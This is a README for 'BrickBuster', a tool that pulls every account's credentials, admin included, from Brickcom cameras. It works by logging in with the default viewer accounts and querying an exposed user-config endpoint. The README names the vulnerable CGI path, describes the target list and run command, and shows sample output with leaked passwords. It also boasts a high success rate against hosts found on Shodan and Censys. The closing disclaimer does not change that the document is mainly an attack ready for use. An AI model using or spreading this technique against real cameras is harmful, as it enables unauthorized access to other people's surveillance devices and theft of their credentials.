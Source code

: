 # BrickBuster
## _"A highly effective pentesting tool for detecting unchanged default credentials on Brickcom cameras." -DoomerToChad_

**BrickBuster** is a security testing tool designed to quickly check for default login vulnerabilities in **Brickcom** cameras.
Many of these devices remain misconfigured, leaving them open to unauthorized access.
- Over 90% success rate when tested on **Shodan** and **Censys**
- Works instantly, no need for traditional bruteforcing
- Retrieves full admin credentials if successful

Most **Brickcom** devices come with three default accounts:
- **admin**
- **viewer**
- **rviewer**
  
Even when **admin** passwords are changed, the **viewer** and **rviewer** accounts are almost always left unchanged.
If access is gained, **BrickBuster** prints all login details including **admin** credentials via a vulnerability
in api authorization where ALL users including **viewer** and **rviewer** can access the global user config.

`/cgi-bin/users.cgi?action=getUsers`

## Usage:
- Prepare a .txt file with the IP and PORT of the *Brickcam* device/s laid out line by line just like in the example.

  ```bash
  192.168.0.1 5001
  192.168.0.1 5002
  192.168.0.1 5003
  ```
- After your .txt file is prepared, simply run the script with the file as its argument and it will iterate through each ip and bruteforce it with the 3 default hashes.

`./BrickBuster file.txt`

- Upon success, it will print out the passwords of the other accounts.

  ```bash
  Testing IP: 69.69.69.69 on Port: 9999
  Authentication failed for: YWRtaW46YWRtaW4=
  User: admin, Password: diddyparty
  User: viewer, Password: viewer
  User: rviewer, Password: rviewer
  ```

## Disclaimer:

*This tool is for authorized security testing and educational use only. Do not use it on systems without explicit permission.*

  
